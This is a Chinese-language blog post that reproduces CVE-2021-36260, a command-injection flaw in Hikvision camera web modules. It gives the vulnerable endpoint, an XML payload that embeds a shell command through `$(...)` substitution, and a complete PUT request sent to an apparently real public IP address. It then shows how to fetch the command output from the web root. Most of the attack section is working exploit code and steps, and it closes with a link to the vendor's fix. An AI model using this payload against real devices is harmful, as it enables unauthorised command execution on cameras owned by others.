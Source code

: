 ```yaml
---
layout: article
title: "CVE-2021-36260"
mathjax: true
tags: "recurrent of vulns"
---
```


# CVE-2021-36260
###### 海康威视摄像头命令注入
# 漏洞概述：
```
海康威视部分产品中的web模块存在一个命令注入漏洞，由于对输入参数校验不充分，攻击者可以发送带有恶意命令的报文到受影响设备，成功利用此漏洞可以导致命令执行。海康威视已发布版本修复该漏洞。
```
# 漏洞编号：
CVE-2021-36260



# 漏洞复现
#### 0x00摄像头版本
```
在界面中是能够看到有多少年的。正常来说应该在21年的年中之前的摄像头都可能会存在该问题
```
![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/ezvCLGFFHcmDGQAYpmy93AP3orSJVFhMudSQOR6cI8Y.png?raw=true)

#### 0x01漏洞点
漏洞点位于：/SDK/webLanguage，利用PUT方法上传xml数据

post\_data

```
<?xml version="1.0"
encoding="UTF-8"?><language>$(ifconfig -a >
webLib/dq)</language>
```
#### 0x02抓包
访问漏洞点

```
http://178.147.175.88:5357/SDK/webLanguage
```
![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/LJwhqwbaQVuTjsz_uar9P90uBz3iNbXz-vs91V51PbY.png?raw=true)



burp重放

![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/9YTTQdF_Bpn25jRm35f7vqVeWEhWA6b4TgmP22DYkfA.png?raw=true)



更改请求方式为PUT，添加poc数据

```
PUT /SDK/webLanguage HTTP/1.1
Host: 178.147.175.88:5357
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 83

<?xml version="1.0"
encoding="UTF-8"?><language>$(ifconfig > webLib/dq)</language>
```
![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/DUY2-UcHu7L1ikp_V6kjIQWHhbBzV7bxkPg_bC3b-0c.png?raw=true)



#### 更换请求路径
该poc会将`ifconfig` 命令执行的结果保存到dq这个文件中

通过浏览器访问即可查看结果，文件落地默认于webLib/ 也就是web根目录下

```
http://178.147.175.88:5357/dq
```
![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/4wuAp40ZHdZVyRdI6SZ9N4O6-5yg8mtrFF7QY0UgCLY.png?raw=true)



也可通过bp进行查看

![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/K3MRzmiigIUa87mJ_272_EE9lyztCEdSMQH_Cz5nIOs.png?raw=true)





#### 修复
参考官方修复文档：

```
https://www.hikvision.com/cn/support/CybersecurityCenter/SecurityNotices/20210919/
```


